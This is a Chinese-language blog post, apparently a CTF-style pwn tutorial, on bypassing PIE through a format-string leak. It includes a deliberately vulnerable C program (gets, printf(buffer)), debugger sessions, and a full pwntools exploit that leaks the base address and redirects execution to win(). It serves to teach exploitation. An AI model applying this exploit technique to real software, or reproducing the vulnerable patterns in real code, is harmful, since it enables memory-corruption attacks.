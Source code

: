 ```yaml
---
title: 通过格式化字符串绕过 PIE
subtitle: 使用格式化字符串绕过 PIE
date: 2023-08-22T11:38:27+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


通过格式化字符串绕过 PIE

<!--more-->

## 0x01 源码

{{< link href="/pwn_assets/pie-fmtstr.zip" content="pie-fmtstr.zip" title="Download pie-fmtstr.zip" download="pie-fmtstr.zip" card=true >}}

```c {title="source.c"}
#include <stdio.h>

void vuln() {
  char buffer[20];

  printf("What's your name?\n");
  gets(buffer);
  
  printf("Nice to meet you ");
  printf(buffer);
  printf("\n");

  puts("What's your message?");

  gets(buffer);
}

int main() {
  vuln();

  return 0;
}

void win() {
  puts("PIE bypassed! Great job :D");
}
```

与上篇文章不同的是，这次我们没有得到任何一个函数的绝对地址。我们必须使用其它
手段来泄漏它。

## 0x02 分析

```
$ ./vuln-32
What's your name?
%p
Nice to meet you 0xf7f3e000
What's your message?
hello
```

测试发现可以使用格式化字符串来泄漏地址。

## 0x03 利用

### 1x01 基础信息

和上次一样，我们首先设置好一些基本内容。

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()
```

### 1x02 泄漏 PIE

现在我们只需要泄漏地址就好了。我们可以在 `pwndbg` 里面尝试一些不同的偏移量来测试。

```
$ pwndbg vuln-32
What's your name?
%p %p %p %p %p
Nice to meet you 0xf7fc6000 (nil) 0x565561d5 (nil) (nil)
What's your message?
hello
```

第 3 个看起来像一个函数的地址，让我们检查一下第 3 个泄漏值和基地址之间的差异。
在格式化字符串泄漏的值之后的某个位置设置一个断点（在哪里并不重要）。

你也可以直接把断点下在泄漏的这个值上面，设这个断点只是为了能够让我们调试程序。

```
$ pwndbg vuln-32
$ r
What's your name?
%3$p
Nice to meet you 0x565561d5
[...]
$ b *0x565561d5
Breakpoint 1 at 0x565561d5
$ r
[...]
$ vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
     Start        End Perm     Size Offset File
0x56555000 0x56556000 r--p     1000      0 vuln-32
0x56556000 0x56557000 r-xp     1000   1000 vuln-32
[...]
```

我们可以看到基地址是 `0x56555000` ，泄漏的值是 `0x565561d5` 。因此，从泄漏的
地址中减去 `0x11d5` 就会得到二进制文件的基地址。

{{<admonition type="tip">}}

可以通过 `vmmap` 指令来查看程序运行的基地址。

对于没有开启 PIE 的程序，直接用 `checksec` 也可以看到基地址。

{{</admonition>}}

```python
p.recvuntil('name?\n')
p.sendline('%3$p')

p.recvuntil('you ')
elf_leak = int(p.recvline(), 16)

elf.address = elf_leak - 0x11d5
log.success(f'PIE base: {hex(elf.address)}')
```

现在，我们只需要发送 payload 就可以了。

```python
payload = b'A' * 32
payload += p32(elf.sym['win'])

p.recvuntil('message?\n')
p.sendline(payload)

p.interactive()
```

### 1x03 最终 Exploit

```python {title="exp.py"}
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()

p.recvuntil('name?\n')
p.sendline('%3$p')

p.recvuntil('you ')
elf_leak = int(p.recvline(), 16)

elf.address = elf_leak - 0x11d5
log.success(f'PIE base: {hex(elf.address)}')

payload = b'A' * 32
payload += p32(elf.sym['win'])

p.recvuntil('message?\n')
p.sendline(payload)

p.interactive()
```

## 0x04 64-bit

同样的思路，只是 64-bit。试试看 :)

{{< link href="/pwn_assets/pie-fmtstr-64.zip" content="pie-fmtstr-64.zip" title="Download pie-fmtstr-64.zip" download="pie-fmtstr-64.zip" card=true >}}

